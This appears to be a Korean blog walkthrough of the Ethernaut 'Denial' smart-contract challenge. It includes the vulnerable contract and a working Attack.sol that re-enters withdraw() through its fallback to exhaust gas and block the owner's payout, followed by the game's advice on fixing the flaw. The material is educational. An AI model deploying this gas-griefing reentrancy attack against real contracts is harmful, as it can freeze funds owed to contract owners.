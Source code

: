 문제 해설에 들어가기 전,  이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다. 필자의 풀이 방법이 절대적은 풀이 방법은 아니므로 이 점 참고하시기 바랍니다.

![대표이미지](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/OpenZeppelin/ethernaut/Heuristic%20Wave%20Ethernaut.png?raw=true)



## Denial Problem



이것은 시간이 지날수록 자금이 떨어지는 간단한 지갑이다.  인출 파트너가되면 천천히 자금을 인출할 수 있다. 만약 owner가 withdraw()를 호출할 때, 돈을 인출하는 것을 막을수 있다면, 이번 단계를 해결 할 수 있다.



### 코드 분석



#### Denial.sol

```javascript
contract Denial {

    address public partner; // 인출 partner - 가스를 지불하고, 인출 금액을 나눠 가져간다.
    address public constant owner = 0xA9E;
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // partners의 잔액을 추적

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // 받는사람과 오너에게 1%씩 인출
    function withdraw() public {
        uint amountToSend = address(this).balance/100;
        // 확인과정 없이 call을 수행한다
        // The recipient can revert, the owner will still get their share
        // 윗 부분 주석이 정확하게 무엇을 뜻하는지 모르겠다.
        partner.call.value(amountToSend)();
        owner.transfer(amountToSend);
        // 마지막 인출 시간을 기록
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // 예치금을 둘 수 있다.
    function() payable {}

    // 잔고 조회 기능
    function contractBalance() view returns (uint) {
        return address(this).balance;
    }
}
```

이번 단계는 딱히 큰 어려움이 없었다. 코드 주석에 해당기능을 자세하게 기술해 놓았기 때문에 간단한 공격자 코드만 작성해서 배포하면 해결 가능하다. 위 코드에서 꼭 알고넘어가야 한느 부분이 있다면, 아마 call함수와 transfer함수의 차이가 될 것이다. 아래에서 자세히 설명하겠다.



이더넛 10단계에서 풀었던 [재진입 문제](https://medium.com/@heuristicwave/ethernaut-re-entrancy-problem-%EC%9D%B4%EB%8D%94%EB%84%9B-10%EB%8B%A8%EA%B3%84-%EB%AC%B8%EC%A0%9C-%ED%95%B4%EC%84%A4-693c9824b412)와 매우 유사하다.



### 문제 풀이 과정

 partner.call.value(amountToSend)(); 는 partner에게 amountToSend만큼 이더를 보낸다. 원래 call로 이더를 보내면 이더를 보내고 남은 가스를 partner에게 넘겨준다.  그래서 위 코드에서는 두 번째 괄호에 해당하는 부분이 ()이렇게 공백으로 '가스량을 지정해두지 않은 것'이  주목할만한 부분이다. 반면에, transfer함수는 쓰고 남은 가스를 보내지 않는 방식이다.  owner와 partner에서 이더를 송금하는 방식이 다르다는 것을 인지하고 넘어가자!



**Attack.sol**

```
contract Attack{
    Denial target;
    // 배포시 타깃을 설정하여 배포한다.
    constructor(address instance_address) public{
        target = Denial(instance_address);
    }
    // hack함수로 공격을 시도
    function hack() public {
        target.setWithdrawPartner(address(this));	// 파트너설정
        target.withdraw();	// 인출
    }
	// call.value()()의 남은 가스량이 partner에 전해지면 아래 fallback을 호출한다.
    function () payable public {
        target.withdraw();
    }
}
```

위 코드를 Denial 컨트랙트(Denial target의 인터페이스 역할)와 함께 작성하여 배포하고 hack()을 호출하자!!

Attack.sol에서 fallback 함수가 없어도 1번 인출하는데 성공할 수 있지만, 이번 단계를 통과하는 조건이 재진입의 기록이 있어야 22단계로 넘어갈 수 있으므로 `partner.call.value(amountToSend)();`에서 남은가스량이 Attack.sol의 주소로 전달될 때, fallback함수를 호출하여 재진입 할 수 있도록 코드를 작성한다!

공격자 컨트랙트를 배포하고 hack()을 호출하면 [이더스캔](https://ropsten.etherscan.io/tx/0x4796ab2de0264149bd908f351d643a4a75ac292278231b7cc7243884e45bd24c)에서 다음과 같은 내용이 보인다.

![denial01](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/denial01.png?raw=true)

To의 내용을 살펴보면 [Out of gas]때문에,  owner로 0.01을 보내는 트랜잭션이 실패했다. 가스값을 정해두지 않았기 때문에 사용하고 남은 모든 가스를 Attack의 주소로 넘기기 때문에 발생하는 문제다. 만약에, call함수대신에 가스값을 지정해두거나, transfer함수로 대체했더라면 owner와 partner에게 동등하게 0.01의 ETH가 전달되었을 것이다. 

위 사진의 빨간박스 Internal Transactions을 눌러 확인하면 무슨 문제가 있었는지 더 확실하게 알 수 있다.

![denial02](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/denial02.png?raw=true)

From : 문제참여자의 주소 To : Attack.sol의 주소로 149번의 [Internal Transactions](https://ropsten.etherscan.io/address/0xeb156eceee6b20de5327e2b8f737ff30fcf4e57d#internaltx)이 발생한 것을 알 수 있다. 

코드의 흐름대로 Attack.sol의 fallback을 호출하고 그 안에있는 withdraw()를 호출하는 과정들은 InstanceAddress과 Attack.sol의 각각의 주소의 Internal Transactions을 살펴보면 그 흐름을 확인 할 수 있다.



이제 문제를 제출하면 끝!



문제를 제출하고 나면, call을 사용할 경우, `call.gas(100000).value()` 이와 같은 방법으로 고정된 가스값을 정해주라는 메시지와 CEI패턴([문제 10](https://medium.com/@heuristicwave/ethernaut-re-entrancy-problem-%EC%9D%B4%EB%8D%94%EB%84%9B-10%EB%8B%A8%EA%B3%84-%EB%AC%B8%EC%A0%9C-%ED%95%B4%EC%84%A4-693c9824b412)에 기재)을 사용하여 코드를 작성하라는 메시지가 나온다. call함수와 transfer함수의 차이를 생각해 볼 수 있었던 재미있는 문제였다. 또 이더스캔으로 내부 트랜잭션의 흐름을 파악하기에도 좋은 문제였다.



22번 문제 Shop에서 만나요!
